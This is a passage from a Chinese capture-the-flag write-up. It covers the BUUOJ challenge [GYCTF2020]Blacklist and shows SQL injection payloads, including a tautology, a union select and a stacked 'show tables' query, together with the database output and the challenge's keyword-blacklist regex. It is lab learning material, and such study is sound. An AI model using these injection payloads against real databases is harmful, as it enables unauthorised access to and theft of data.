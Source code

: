 ### 总结

这题结合了**get请求注入**、**目录扫描**、**反序列化**、**php伪协议**多个要素，是一道很有意思的题，也是目前为止我刷buuoj过程中碰到的最难的web题。

## 0x03 [GYCTF2020]Blacklist

[题目链接](https://buuoj.cn/challenges#[GYCTF2020]Blacklist)

`1' or 1=1#`看到当前表中存了3条记录。

```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

array(2) {
  [0]=>
  string(1) "2"
  [1]=>
  string(12) "miaomiaomiao"
}

array(2) {
  [0]=>
  string(6) "114514"
  [1]=>
  string(2) "ys"
}
```

`1' union select 1,2,3 #`发现`set`/`select`等不论大小写都被过滤了。

```
return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);
```

这又难到了我，看了一下报错注入也需要`select`啊，怎么操作呢？查阅博客后回想起，注入不是只有**union联合注入**、**updataxml报错注入**等，还有**堆叠注入**啊。

`1';show tables;#`查看所有表

```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}
------------------------
array(1) {
  [0]=>
  string(8) "FlagHere"
}

array(1) {
  [0]=>
  string(5) "words"
}
------------------------
```
